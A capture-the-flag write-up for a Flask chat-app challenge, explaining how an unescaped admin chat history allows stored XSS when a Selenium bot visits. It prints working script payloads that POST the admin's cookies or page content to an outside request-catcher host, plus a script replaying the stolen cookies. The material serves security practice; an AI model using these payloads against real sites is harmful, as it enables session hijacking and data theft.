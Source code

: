 # HackChatAI \[388 points\] (6 solves)

> Why rely on humans for conversation when AI can handle it for you?

### Files:
[src.zip](/web/HackChatAI/src)

This challenge gives us a Flask chat app which allows us to communicate with a GPT-4o model and optionally request a human. Requesting a human spins up a Selenium webdriver and visits the `/admin` chat, but nothing is returned from there.

## The Attack Vector

The goal is pretty obvious: steal the admin's cookie, log in to `/admin` and get the flag from the admin chat.

Since this is a Flask app, I was mostly looking for `| safe` operators, since they turn of Flask's autoescaping. Autoescaping is done by default by Flask, and it ensures that anything dynamically loaded via templates into our HTML is treated like plain text, not as HTML. If the challenge turns autoescaping off, we will be able to perform basic XSS attacks to exfiltrate data from the admin. Yet, if we look at our `index.html` file, we can see that there aren't any `| safe` operators:

```html
    <h2>Chat Page</h2>
    <div class="messages" id="messages">
        {% for message, is_response in chat_history %}
            <div>{{ 'Server: ' if is_response else 'You: ' }}{{ message }}</div>
        {% endfor %}
    </div>
```

I was stuck here for most of the challenge. If I'm not able to inject code, how can I steal the flag from the admin?

In this case, my mistake was the assumption that our Selenium instance is visiting the same chat as I was. The Selenium instance actually visits the `/admin` page with an admin cookie, which is what we're trying to steal. 

> [!NOTE]
> The Selenium instance only starts up when you write `I need a human` in the chat

If we look at the admin page:

```html
    <h3>Chat History</h3>
    <div class="chat-history">
        {% for chat in chat_history %}
        <div class="chat-message">
            <div class="chat-date">{{ chat[0]|safe }}</div>
        </div>
        {% endfor %}
    </div>
```

We can see that all of our messages have autoescaping turned off, allowing for us to use XSS to steal the admin account.

When tinkering with different XSS attacks, the biggest deterrent I found was this error I:

![console fetch error](/web/HackChatAI/solution/cors_error.png)

I thought this meant that I wasn't able to POST the data, so I started considering exfiltrating data with WebRTC and DNS out-of-bound interactions. But, if you read the error carefully, it's specifying that the *response* is being blocked, not the *request*, which means that our data is being sent, but any response we get will be blocked by CORS. That doesn't matter, because we're not returning anything from the request.


## Execution

Here is my basic XSS attack to exfiltrate the cookie from the admin:

```js
<script>
    fetch("https://hackbox.requestcatcher.com", { 
        method: "POST",
        headers: { "Content-Type": "text/plain" },
        body: document.cookie
    });
</script>
```
<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackbox.requestcatcher.com", { method: "POST", headers: { "Content-Type": "text/plain" }, body: document.cookie });</script>
```

</details>

In this POST request, I used [`requestcatcher`](https://requestcatcher.com/) to see all `POST`ed data, mainly because it's free and unblocked on my school's WiFi. Once I input the XSS into the chat and requested a human, we get `POST`ed data of the admin cookies:

![cookies from admin](/web/HackChatAI/solution/stolen_cookies.png)

So, this was the final script to get the admin page:
```py
import requests

url = "https://ictf24-high-hackchatai.chals.io/admin"
cookies = {
    "admin_cookie": "NBtL78S9MCdb8sOC",
    "play_token": "2ht823oPJa5jPrcy"
}

response = requests.get(url, cookies=cookies)

print(response.text)
```


Resulting in the HTML page of the admin containing the flag:
```
...
<h2>Welcome, Admin!</h2>
<h3>ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}</h3>
...
```

### Alternate solution

However, it's actually easier to ignore the admin cookie altogether and simply steal the flag, since it's loaded on the admin page regardless:

![admin page](/web/HackChatAI/solution/admin_console_selenium.png)

This flag in an H3 element, which we can steal by parsing through all H3s that start with `ictf` (the flag format):

```html
<script>
    fetch("https://hackchatai.requestcatcher.com", {
        method: "POST",
        headers: {
            "Content-Type": "text/plain"
        },
        body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent
    });
</script>
```

<details>
<summary>Minified</summary>

```html
<script>fetch("https://hackchatai.requestcatcher.com", {method: "POST", headers: {"Content-Type": "text/plain"}, body: Array.from(document.querySelectorAll('h3')).find(el => el.textContent.trim().startsWith('ictf')).textContent.trim() || 'invalid'});</script>
```

</details>

<br>

We get a POST request like this:

![final post req](/web/HackChatAI/solution/request_catcher_post.png)

Giving us the flag.

```
ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}
```

## Conclusion

I really enjoyed this challenge. It reminded me of PicoCTF 2024's hardest web challenge, `elements`, given that both of the challenges allowed the user to execute code in an automated web browser to exfiltrate the flag. This wasn't too hard, and was a nice practice problem in the middle of the competition.
